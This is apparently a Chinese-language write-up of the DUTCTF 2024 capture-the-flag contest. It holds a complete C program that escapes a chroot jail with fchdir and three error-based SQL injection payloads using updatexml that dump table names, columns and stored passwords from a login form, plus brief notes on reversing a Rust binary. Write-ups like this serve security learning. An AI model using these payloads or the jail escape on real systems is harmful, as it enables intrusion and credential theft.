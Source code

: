 ```yaml
---
title: DUTCTF 2024 Writeup
date: 2024-03-19T10:51:54+08:00
tags: [CTF]
---
```


### jailbreak

> handout/files/rootfs.cpio 是一个简易的文件系统。 
> 
> 在运行 handout/files/run.sh 后，你将进入一个位于该文件系统 /root/jail/ 路径下的 chrooted jail。
> 
> 你需要逃出该 chrooted jail 读取 /flag。

根据题目描述，使用了 `chroot` 修改了根目录导致无法正常访问根目录下的 flag 文件。可以通过文件描述符来逃脱 jail，然后不断返回上层目录。

```c
#include <fcntl.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
  int fd = open(".", O_RDONLY);
  mkdir("tempdir", 0755);
  if (fd == -1) return 1;
  if (chroot("test") == -1) return 1;
  if (fchdir(fd) == -1) return 1;
  for (int i = 0; i < 10; i++) chdir("..");
  if (chroot(".") == -1) return 1;
  system("cat flag");
  return 0;
}
```

### 数据库初学者

> 小白的java老师上课教了jdbc的使用方式，他立马写了一个登陆系统出来

在登录框尝试输入 `'` 测试，发现发生了报错，可以使用 `updatexml` 来泄漏表信息。

- 获取表信息：`' or updatexml(1,concat(0x7e,right((select group_concat(table_name) from information_schema.tables where table_schema=database()),30),0x7e),1) or '`
- 获取 users 表信息：`' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '`
- 获取 password：`' or updatexml(1,concat(0x7e,right((select group_concat(password) from users),30),0x7e),1) or '`


### 输入flag以获取flag

TODO

### ctf1

> ①思念，爱，或者是缘分?顺着这份联系就一定能找到对方（如果想找到输出函数，可以尝试使用rust编译一份exe并观察输出函数的伪代码实现。即使不使用现代的函数符号识别工具，人类，也能找到那个决定性的特征吧）
> 
> ②rust的println有一个固定的字符串引用，这就是本体中决定性的特征。如果能找到ctf1中的println，对println的交叉引用就是决定的一击
> 
> ③没有学过rust也没有关系，跟随菜鸟教程，来一个rust版的hello world并拖去ida加载pdb文件分析（用debug模式，即默认的cargo run会好一些）


Rust逆向，可以通过 `stdoutlibrary\std\src\io\mod.rs` 和各种报错字符串来找到println函数。之后分析跳rip即可得到flag。

当时没做出来，最后发现因为我跳的rip往下了5行导致某些内存没有初始化发生了错误。以后逆向的时候要注意在目标地址附近多试几次。